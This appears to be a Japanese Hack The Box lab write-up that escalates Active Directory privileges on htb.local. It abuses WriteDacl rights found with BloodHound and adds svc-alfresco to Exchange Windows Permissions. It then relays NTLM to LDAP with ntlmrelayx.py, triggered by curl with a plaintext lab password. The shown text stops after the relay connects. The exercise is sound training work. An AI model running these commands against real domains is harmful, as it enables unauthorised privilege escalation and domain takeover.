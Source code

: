![スクリーンショット 2021-12-19 11 53 28](https://user-images.githubusercontent.com/85237728/146662005-5d8cc3e2-c15e-468e-94fd-421ddb4ee40f.png)

-> Blood Houndの`Find Shortest Paths to Domain Admins`を実行すると、**`EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL`グループに所属しているユーザーが`HTB.LOCAL`ドメイン全体の
ACLに対する書き込み権限（Write Dacl）を有していることが確認できる！**

（Write Daclのヘルプ）
> The members of the group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL have permissions to modify the DACL (Discretionary Access Control List) on the domain HTB.LOCAL.
> <br>With write access to the target object's DACL, you can grant yourself any privilege you want on the object.

### step.1
まず、`net group`コマンドにて、`svc-alfresco`ユーザを`Exchange Windows Permissions`グループへ追加

```
*Evil-WinRM* PS C:\Users\svc-alfresco> net group "Exchange Windows Permissions" svc-alfresco /add
The command completed successfully.
```
（PowerViewで確認）

```
*Evil-WinRM* PS C:\Users\svc-alfresco> Get-NetUser svc-alfresco
...
memberof  : {CN=Service Accounts,OU=Security Groups,DC=htb,DC=local, CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local}
...
```

### step.2
`impacket`モジュールの`ntlmrelayx.py`にて**NTLM Relay**を狙う（NTLMリレーアタックについては[ここ](https://www.youtube.com/watch?v=915Ugbm39vE)）。

（ntlmrelayxのヘルプ訳）
> 受け付けた全てのコネクションに対して、このモジュールはそのコネクションを指定されたターゲットもしくは元のクライアントへリレーする。

**LDAP client options**：
- `-t TARGET`：クリデンシャルをリレーする相手
- `--escalate-user ESCALATE_USER`：権限昇格させたいユーザをここで指定する（新しいユーザを作る代わりに）

```
┌──(kali㉿kali)-[~]
└─$ sudo ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user svc-alfresco
Impacket v0.9.24.dev1+20211015.125134.c0ec6102 - Copyright 2021 SecureAuth Corporation

[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server
[*] Setting up WCF Server

[*] Servers started, waiting for connections
```
（注）80番ポートを開けておくこと

接続を承認させる

```
┌──(kali㉿kali)-[~]
└─$ curl -u svc-alfresco::s3rvice http://localhost/ 
```

- `-u`：`<user>:<password>`の形で（サーバ認証に必要なとき）指定する

（curl実行後ntlmrelayx.pyの反応）

```
[*] Servers started, waiting for connections
[*] HTTPD: Received connection from 127.0.0.1, attacking target ldap://10.10.10.161
[*] HTTPD: Client requested path: /
```



